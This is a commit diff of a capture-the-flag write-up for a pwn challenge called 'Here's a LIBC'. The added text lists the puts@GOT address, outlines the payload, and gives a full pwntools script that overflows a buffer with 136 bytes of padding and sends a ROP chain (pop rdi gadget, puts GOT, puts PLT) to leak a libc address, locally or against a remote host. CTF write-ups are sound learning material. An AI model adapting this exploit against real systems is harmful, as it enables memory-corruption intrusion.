

Before and after one commit to jon-brandy/CTF-WRITE-UP, a Markdown page: Asset/Here's a LIBC/README.md, the part around one of its changes. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Asset/Here's a LIBC/README.md
+++ b/Asset/Here's a LIBC/README.md
@@ -101,4 +101,63 @@ I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mer
 ![image](https://user-images.githubusercontent.com/70703371/223365541-830ca543-3b8e-480d-b7ef-90f9bcc64b46.png)
 
 
-> GET THE PUTS@GOT
+> GET THE PUTS@GOT (USING PWNTOOLS) FOR THIS -> 0x601018
+
+![image](https://user-images.githubusercontent.com/70703371/223365888-9c017687-ff5d-436c-9f4c-2790f19080f4.png)
+
+
+20. To summarize, the payloads we need to send are:
+
+```
+padding (RIP offset),
+pop_rdi,
+puts_got,
+puts_plt
+```
+
+```py
+from pwn import *
+import os
+
+os.system('clear')
+
+def start(argv=[], *a, **kw):
+    if args.REMOTE:
+        return remote(sys.argv[1], sys.argv[2], *a, **kw)
+    else:
+        return process([exe], *a, **kw)
+
+exe = './vuln_patched'
+elf = context.binary = ELF(exe, checksec=True)
+context.log_level = 'debug'
+
+lib = './libc.so.6'
+libc = context.binary = ELF(lib, checksec=False)
+
+sh = start()
+
+offsetRsp = 136 # padding to RIP
+
+puts_got = elf.got['puts']
+info('Puts Got: %#0x', puts_got)
+
+pop_rdi_gadget = 0x0000000000400913
+info('RDI: %#0x', pop_rdi_gadget)
+
+puts_plt = elf.plt['puts']
+info('Puts PLT: %#0x', puts_plt)
+
+p = flat([
+    asm('nop')*offsetRsp,
+    pop_rdi_gadget,
+    puts_got,
+    puts_plt
+])
+
+sh.sendline(p)
+
+
+sh.interactive()
+
+```
+
````
Also changed, not shown: other parts of Asset/Here's a LIBC/README.md (+7 -0 lines).
